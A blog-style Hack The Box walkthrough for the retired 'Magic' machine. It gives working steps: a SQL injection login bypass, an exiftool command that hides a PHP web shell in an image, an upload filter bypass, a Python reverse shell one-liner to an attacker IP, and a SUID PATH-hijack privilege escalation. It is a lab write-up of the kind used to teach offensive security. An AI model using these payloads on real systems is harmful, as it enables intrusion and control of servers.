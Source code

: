 ```yaml
---
layout: post
title:  "HTB Magic Walkthrough"
author: nanobyte
date:   2020-08-31
description: Hack The Box writeup for Magic, Retired Linux Medium Box
tags: HTB_Walkthrough 
---
```


I began with some simple enumeration scans:

{% highlight bash linenos %}
nmap -sV -sC -p- 10.10.10.185                                                                                                                                                                               [478/478]
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-26 20:08 CDT
Nmap scan report for 10.10.10.185                      
Host is up (0.043s latency).                                                                                         
Not shown: 65533 closed ports                                                                                        
PORT   STATE SERVICE VERSION                                                                                         
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)                                    
| ssh-hostkey:                                                                                                       
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)                                                                                                                                                                             
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)                                                                                                                                                                            
|_  256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)                                                    
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))                                                                                                                                                                                        
|_http-server-header: Apache/2.4.29 (Ubuntu)                                                                         
|_http-title: Magic Portfolio                                                                                        
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel                                                              
                                                                                                                     
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .                                                                                                                                             
Nmap done: 1 IP address (1 host up) scanned in 41.57 seconds
{% endhighlight %}

{% highlight bash linenos %}
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.10.185 -t 30
===============================================================                                                      
Gobuster v3.0.1                                                                                                      
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)                                                      
===============================================================                                                                                                                                                                            
[+] Url:            http://10.10.10.185                                                                                                                                                                                                    
[+] Threads:        30                                                                                                                                                                                                                     
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt                                                                                                                                                            
[+] Status codes:   200,204,301,302,307,401,403                                                                                                                                                                                            
[+] User Agent:     gobuster/3.0.1                                                                                   
[+] Timeout:        10s                                                                                                                                                                                                                    
===============================================================                                                                                                                                                                            
2020/05/26 20:10:17 Starting gobuster                                                                                                                                                                                                      
===============================================================                                                                                                                                                                            
/assets (Status: 301)                                                                                                                                                                                                                      
/images (Status: 301)                                                                                                                                                                                                                      
===============================================================                                                                                                                                                                            
2020/05/26 20:12:26 Finished                                                                                                                                                                                                               
===============================================================
{% endhighlight %}

I was able to identify SQL Injection on a login page, at http://10.10.10.185/login.php, using the following in the username and password fields:

{% highlight bash linenos %}
Username: ' or 1=1 --
Password: ' or 1=1 --
{% endhighlight %}

I tried to upload a PHP reverse shell, but got an error back asking `What are you trying to do here!?` so obviously it is blocked. By changing .php to .jpg resulted in the same error, so moved on. I downloaded an image from the internet, named it index.jpeg and used exfiltool to make a malicious image file:

{% highlight bash linenos %}
exiftool -Comment='<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>' index.jpeg
{% endhighlight %}

Once I uploaded, I used BURP to intercept the image file, and sent to repeater. Once in repeater, I changed the filename to index.php.jpeg and sent the POST forward:

<img src="/images/posts/magic_walkthrough/burp_repeater.png" alt="burp_repeater">

Once the malicious image was uploaded, I went back to the home page that was full of images, and I found that images were uploaded to `/images/uploads`. With this, I went to my image at `10.10.10.186/images/uploads/index.php.jpeg` and could then run commands:


{% highlight bash linenos %}
http://10.10.10.185/images/uploads/index.php.jpeg?cmd=ls
{% endhighlight %}

Then, I got to work on a reverse shell! There were many shells that would not connect back. Eventually, I found python3 in `/usr/bin` and used a python reverse shell using my web shell:

{% highlight bash linenos %}
/usr/bin/python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.64",31337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
http://10.10.10.185/images/uploads/index.php.jpeg?cmd=ls
{% endhighlight %}

And I got a reverse shell back:

<img src="/images/posts/magic_walkthrough/shell.png" alt="shell">

I then began enumerating the `/var/www/Magic directory`, working my way down. Eventually I came across a `bk.sql` file, that had hardcoded credentials:

<img src="/images/posts/magic_walkthrough/bk-sql.png" alt="bk-sql">

It did not work for root, but there is another user on the system, `theseus`. I was able to log right in as that user:

<img src="/images/posts/magic_walkthrough/theseus.png" alt="theseus">

And I owned user:

{% highlight bash linenos %}
cat /home/theseus/user.txt
xxxxxxxxxxxxxxxxxxxxff70c41c8b037eaab
{% endhighlight %}

While enumerating for root, I found that the `sysinfo` binary had SUID set:

{% highlight bash linenos %}
find / -perm -u=s -type f 2>/dev/null
...
/bin/sysinfo
...
{% endhighlight %}

Looking on the internet, there are a lot of MagniComp vulnerabilities that appeared for this binary. Ultimately, this was a combination of two attacks to get root. First, was a PATH injection. I had to set a path, in this case `/tmp`, into the `$PATH` variable for a malicious binary to run:


<img src="/images/posts/magic_walkthrough/path-injection.png" alt="path-injection">

And now that we have our path set, let's make the malicious binary. When sysinfo runs, it calls lshw to look at the hardware on the system. Make a malicious lshw file:

{% highlight bash linenos %}
echo "/bin/cat /root/root.txt" > lshw
chmod 777 lshw
{% endhighlight %}

And then once sysinfo is run, you will have root!


{% highlight bash linenos %}
cat /root/root.txt
xxxxxxxxxxxxxxxxxx051a7763c65c29a26f4
{% endhighlight %}
